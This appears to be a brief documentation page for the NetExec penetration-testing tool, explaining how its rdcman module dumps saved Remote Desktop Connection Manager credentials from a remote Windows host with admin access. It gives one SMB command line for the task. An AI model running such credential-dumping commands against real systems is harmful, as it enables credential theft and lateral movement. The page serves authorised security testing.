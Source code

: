 ```yaml
---
description: Dump Remote Desktop Connection Manager credentials
---
```


# 🆕 Dump Remote Desktop Connection Manager

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M rdcman
```
